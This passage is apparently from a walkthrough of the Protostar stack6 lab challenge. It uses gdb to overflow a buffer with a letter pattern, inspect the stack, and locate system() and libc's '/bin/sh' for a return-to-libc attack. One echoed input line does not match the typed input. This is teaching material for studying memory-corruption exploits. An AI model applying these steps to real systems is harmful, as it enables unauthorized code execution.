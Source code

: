 
Now set a breakpoint at `getpath+117`

```bash
(gdb) break *getpath+117
Breakpoint 1 at 0x80484f9: file stack6/stack6.c, line 23.
```

And run with the `QQQQWWWWEEEERRRRTTTTYYYY...` input and examine at eight words as hexadecimal at ESP.

```bash
(gdb) r
Starting program: /opt/protostar/bin/stack6 
input path please: QQQQWWWWEEEERRRRTTTTYYYYUUUUIIIIOOOOPPPPAAAASSSSDDDDFFFFGGGGHHHHJJJJKKKKLLLLZZZZXXXXCCCCVVVVBBBBNNNNMMMM
got path QQQQWWWWEEEERRRRTTTTYYYYUUUUIIIIOOOOPPPPAAAASSSSDDDDFFFFGGGGHHHHXXXXKKKKLLLLZZZZXXXXCCCCVVVVBBBBNNNNMMMM

Breakpoint 1, 0x080484f9 in getpath () at stack6/stack6.c:23
23      stack6/stack6.c: No such file or directory.
        in stack6/stack6.c
(gdb) X/8wx $esp
0xbffff79c:     0x58585858      0x43434343      0x56565656      0x42424242
0xbffff7ac:     0x4e4e4e4e      0x4d4d4d4d      0xbffff800      0xbffff85c
(gdb) 
```

Now that we know the stack has been filled up with our letters (run `x/8ws $esp` to see proof), let's get the address of `/bin/sh` and `system()`.
In 32 bit architecture, function parameters are stored on the stack, so we will have to put the memory address of `/bin/sh` on the stack. Luckily libc provides us
with a `/bin/sh` already, so we just have to find the memory address of it.

```bash
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
(gdb) info proc map
(gdb) info proc map
process 3211
cmdline = '/opt/protostar/bin/stack6'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/stack6'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack6
         0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack6
        0xb7e96000 0xb7e97000     0x1000          0        
        0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
        0xb7fd9000 0xb7fdc000     0x3000          0        
        0xb7fde000 0xb7fe2000     0x4000          0        
        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
        0xbffeb000 0xc0000000    0x15000          0           [stack]
(gdb) 
```
